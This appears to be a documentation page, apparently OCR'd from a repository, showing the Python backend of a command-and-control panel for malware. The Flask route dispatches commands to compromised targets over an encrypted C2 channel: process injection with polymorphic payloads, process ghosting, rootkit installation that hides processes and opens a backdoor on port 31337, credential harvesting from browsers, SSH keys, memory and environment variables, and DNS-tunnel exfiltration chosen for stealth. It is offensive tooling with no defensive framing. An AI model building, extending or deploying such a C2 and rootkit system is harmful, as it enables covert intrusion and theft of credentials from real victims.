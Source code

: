 
## 🔗 HOW COMPONENTS INTEGRATE

### Phase 1 → Phase 2 → Phase 3 Flow:

```python
# Backend integration in web_app_real.py

@app.route('/api/target/<target_id>/action', methods=['POST'])
def execute_action(target_id):
    action = request.json['action']
    target = get_target(target_id)
    
    if action == 'inject':
        # Phase 2: Process Injection
        process_list = get_remote_processes(target)  
        technique = request.json['technique']
        payload = generate_injection_payload()  # Phase 1 polymorphic
        
        command = {
            'cmd': 'inject',
            'pid': request.json['pid'],
            'technique': technique,
            'payload': payload
        }
        
    elif action == 'ghost':
        # Phase 3: Process Ghosting
        command = {
            'cmd': 'execute_ghost',
            'payload': get_polymorphic_payload(),  # Phase 1
            'method': 'memfd'  # or 'transaction' for Windows
        }
        
    elif action == 'rootkit':
        # Phase 3: Rootkit Installation
        command = {
            'cmd': 'install_rootkit',
            'hide_pids': [target.pid],
            'hide_ports': [4433, 31337],
            'backdoor_port': 31337
        }
        
    elif action == 'harvest':
        # Phase 3: Credential Harvesting
        command = {
            'cmd': 'harvest_creds',
            'targets': ['browsers', 'ssh', 'memory', 'env'],
            'exfil_method': 'dns'  # Use DNS tunnel for stealth
        }
        
    elif action == 'dns_tunnel':
        # Phase 3: Setup DNS Tunneling
        command = {
            'cmd': 'setup_dns',
            'server': '8.8.8.8',
            'domain': 'data.example.com',
            'mode': 'exfil'
        }
        
    # Send command through encrypted C2 channel (Phase 1)
    send_encrypted_command(target, command)
    
```